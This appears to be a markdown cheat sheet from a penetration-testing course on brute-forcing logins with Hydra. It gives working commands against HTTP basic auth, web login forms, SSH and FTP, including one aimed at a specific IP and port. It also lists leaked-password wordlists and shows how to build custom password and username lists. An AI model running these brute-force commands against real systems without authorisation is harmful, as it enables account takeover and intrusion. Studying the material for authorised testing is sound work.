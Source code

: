 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
> we can tell hydra to stop after the first successful login by specifying the flag `-f`  
> We will add the `-u` flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.
>
> example command  
> `hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://64.227.34.91:30056/login.php:username=^USER^&password=^PASS^:F=<form name='login'" -t 64`
>
> In Hydra’s http-post-form module, success and failure conditions are crucial for properly identifying valid and invalid login attempts. Hydra primarily relies on failure conditions (F=...) to determine when a login attempt has failed, but you can also specify a success condition (S=...) to indicate when a login is successful.




# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h \| grep "Supported services" \| tr ":" "\n" \| tr " " "\n" \| column -e` | show support services |
| `hydra http-post-form -U` | list the parameters it requires and examples of usage |
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List ||
| `netstat -antp \| grep -i list` | list services |
